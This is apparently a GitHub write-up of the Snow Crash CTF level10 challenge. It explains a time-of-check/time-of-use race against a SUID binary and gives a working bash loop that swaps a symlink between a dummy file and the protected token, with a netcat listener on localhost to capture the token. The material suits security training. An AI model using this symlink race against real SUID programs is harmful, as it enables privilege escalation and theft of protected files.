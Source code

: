 # Level10 Solution – Snow Crash Project

- `level10`: SUID executable owned by `flag10`
- `token`: readable only by `flag10`, not accessible to `level10`

Running the binary:

```bash
./level10
# Output: You must provide at least one argument.

./level10 token
# Output: You are not authorized to access this file

## Analysis

Reverse engineering or running strace on the binary reveals:
The binary checks access to the given file using access()
After the access check, it sends the file's contents over TCP to the IP provided
This presents a classic TOCTOU (Time-of-check to time-of-use) vulnerability.
By racing a symlink (/tmp/symlink) between a dummy file and the real token, we can trick the program into passing the access check (using the dummy), but then reading the real token.



## Objective
Exploit a **Time-Of-Check Time-Of-Use (TOCTOU)** vulnerability in the `level10` binary to gain access to the flag.

## Understanding the Challenge
The `level10` binary takes a file and an IP address as arguments. It reads the content of the file and sends it over the network to the given IP. The binary is vulnerable because it checks the file's permissions **before** opening it — allowing us to swap the file between the check and the actual read.

## Exploitation Strategy
We create a symlink `/tmp/symlink` that initially points to a dummy file. Then, during the small window between permission check and file read, we change the symlink to point to the actual target file: `/home/user/level10/token`.

To capture the content sent by the program, we use a **netcat** server listening on a local port.

## Exploit Script

Create the following file `/tmp/toctou.sh`:

```bash
#!/bin/bash
while true; do
    ln -sf /home/user/level10/token /tmp/symlink
    sleep 0.1
    ln -sf /tmp/dummy /tmp/symlink
    sleep 0.1
done
```

Make it executable:

```bash
chmod +x /tmp/toctou.sh
```

## Run the Exploit

**Step 1: Prepare the dummy file**

```bash
echo "dummy content" > /tmp/dummy
```

**Step 2: Run the TOCTOU script in the background**

```bash
/tmp/toctou.sh &
```

**Step 3: Listen for output using netcat**

```bash
nc -lk 6969 | grep -v ".( )." &
```

**Step 4: Run the vulnerable binary repeatedly**

```bash
while true; do ./level10 /tmp/symlink 127.0.0.1; done &>/dev/null
```

Wait for the real token content to be printed by `netcat`.

> **Note:** If you see the error `nc: Address already in use`, it means the listener is already running. Stop previous instances using `fg`, then `Ctrl+C`, or use `kill`.

## Flag

Once the token appears in the terminal output, use it to move on to the next level:

```bash
su level11
```
